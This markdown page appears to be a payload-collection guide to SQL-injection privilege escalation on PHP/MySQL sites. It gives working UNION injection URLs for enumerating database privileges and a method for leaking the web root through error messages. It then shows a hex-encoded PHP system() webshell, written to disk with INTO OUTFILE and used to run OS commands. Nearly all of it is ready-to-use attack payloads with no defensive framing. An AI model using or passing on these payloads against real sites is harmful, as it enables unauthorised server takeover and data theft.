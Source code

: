 # SQL Privilege Escalation

## Identifying the vulnerability

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -```

Payload used for Privilege Check via I_S.PRIVILEGES:  
```(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)```

Payload used for Privilege Check via MySQL System Table:  
```(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)```

Apply one of the queries into the 4th column:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -```

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server/database.

## Escalating privileges

Since we have permission to write, we can create our own PHP Webshell, but to do this we need to know the absolute path of INDEX.

### Finding absolute path

The most common way is to perform a 'Fatal Error' or a Syntax Error and the absolute path will be shown bolded like the image below.
Note: different websites displayes different output and format.

![fatal_error_syntax](https://i.imgur.com/rAPKrh1.png)

The bold part is the absolute path: **E:\xampp\htdocs** which is converted to **E:/xampp/htdocs**

### Uploading webshell

Below is the PHP script converted to 0xHEX format:  
```0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d```

The converted PHP payload:  
```“<?php system($_GET[‘cmd’]); ?>”```

The given query is the final payload to upload our simple webshell into webshell.php

```http://domain.com/index.php?id=1' Union Select 1,2,3,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,5,6,7,8,9,10,11,12 into outfile 'E:/xampp/htdocs/webshell.php'-- -```

Since the webshell is upload, you can go execute OS Commands:

```http://domain.com/webshell.php?cmd=whoami```



